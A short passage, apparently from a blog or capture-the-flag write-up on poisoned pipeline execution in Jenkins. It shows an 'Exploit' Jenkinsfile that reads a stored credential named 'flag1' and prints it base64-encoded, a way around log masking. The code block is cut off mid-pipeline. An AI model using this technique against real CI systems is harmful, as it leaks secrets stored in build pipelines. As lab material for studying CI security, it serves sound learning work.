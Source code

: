 ![pr](images/Tech%20Blog/jenkin_edit.gif)
![ppe](images/Tech%20Blog/jenkin_edit_2.gif)

#### Exploit

```Jenkinsfile
pipeline {
    agent any
    environment {
        PROJECT = "src/urllib3"
    }

    stages {
        stage('read_flag') {
            steps {
                withCredentials([string(credentialsId: 'flag1', variable: 'flag1')]) {
                        sh '''
                            echo "$flag1" | base64
                        '''
```